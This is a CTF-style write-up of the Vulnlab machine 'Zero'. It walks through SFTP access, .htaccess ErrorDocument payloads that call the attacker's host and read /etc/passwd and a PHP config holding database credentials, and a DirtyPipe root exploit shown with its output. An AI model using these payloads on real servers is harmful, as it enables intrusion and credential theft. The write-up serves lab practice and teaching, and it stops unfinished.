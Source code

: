 ```yaml
---
layout: post
title: VL Zero (Machine Insane)
date: 2025-02-18
categories: [Vulnlab, Machine]
tags: [Vulnlab, Machine, Apache, .htaccess, SFTP, DirtyPipe]
author: Ethicxz
image: assets/image_start/zero_slide.png
description: VL Machine Zero by Ethicxz
---
```


# Before Starting 
```console
Me > 10.8.2.163
Target > 10.10.88.2
```
# Ports

```console
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
``` 

## Signup Functions

On the site, there is a "signup function" at ```http://10.10.88.2/signup.php``` which gives us credentials to login in ```sftp``` (like the machien ```Ten```)

We can access to ```sftp``` like that

![alt text](../assets/image_zero/1er.png)

Or like that 

```bash
# sftp zro-063e275e@10.10.88.2

zro-063e275e@10.10.88.2's password:
Connected to 10.10.88.2.
sftp> ls -la
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 .
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 ..
drwxr-xr-x    2 1007     1007         4096 Feb 18 19:27 public_html
```
## Upload file in SFTP

(First of all, i tried to upload some php files etc but it doesn't work)

So there is a directory ```public_html```

```bash
sftp> ls -la
drwxr-xr-x    2 1007     1007         4096 Feb 18 19:27 .
drwxr-xr-x    3 root     root         4096 Feb 18 19:27 ..
-rw-r--r--    1 root     root           49 Feb 18 19:27 .htaccess
-rw-r--r--    1 1007     1007          349 Feb 15  2019 index.html
```
We basically don't care about ```index.html``` but ```.htaccess``` is an interesting file

## Replace .HTACCESS to read a file

I tried many things with [this tool](https://github.com/wireghoul/htshells) but nothing worked.

I then remembered the ```Ten``` machine made by [Jkr](http://x.com/ateamjkr) (knowing that Zero was also made by jkr) and so I went to look at the Apache docs to find how I could make this ```.htaccess``` file interesting

First, I found this https://httpd.apache.org/docs/2.4/custom-error.html

It doesn't seem very useful at first but let's keep this doc in mind

I then did some research on how to make a ```.htaccess file``` "malicious" and I found this doc : https://blog.sucuri.net/2024/03/what-is-htaccess-malware-detection-symptoms-prevention.html

Using this payload :

```console
ErrorDocument 404 http://10.8.2.163/inject/index.php
```
I managed to receive a get on my python server by reaching a non existing file ```GET /~zro-063e275e/test/aaaa HTTP/1.1```

![alt text](../assets/image_zero/2er.png)

```console
NOTE : I created "toto" directory to avoid breaking the "public_html" directory and i gave all rights to the .htaccess file in my toto directory

Knowing that i create the .htaccess file on my attacking machine with root rights, if i do not change the rights, i would not be able to read the file on the website with my user who has a UID of 1006
```
![alt text](../assets/image_zero/3er.png)

But i couldn't get anything conclusive from it, so i tried reading files on the target machine instead

Back to the apache doc https://httpd.apache.org/docs/current/expr.html#functions

```file Read contents from a file (including line endings, when present) ```

This function is interesting, so we can change our payload like that 

```console
# ErrorDocument 404 http://10.8.2.163/inject/index.php
ErrorDocument 404 %{file:/etc/passwd}
```
And it works !!

To avoid wasting time I'm not going to say all the files I tried to read but in summary it was enough to read ```/var/www/html/stats.php```

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: zero.vl' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' -H $'Upgrade-Insecure-Requests: 1' -H $'Priority: u=0, i' \
    $'http://zero.vl/~zro-063e275e/test/aaaa'
```

```"localhost", "zroadmin", "REDACTED"```

Now login with ssh

## Unintended ROOT (quick win)
After some enumerations i found a quick win (dirtypipe)

```bash
zroadmin@ip-10-10-10-13:/tmp$ ./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),666(zroadmin)
```
But of course I want to try to resolve the box by the intended so I will take this WU again when I have found the intended way

## To finish...

To finish.......
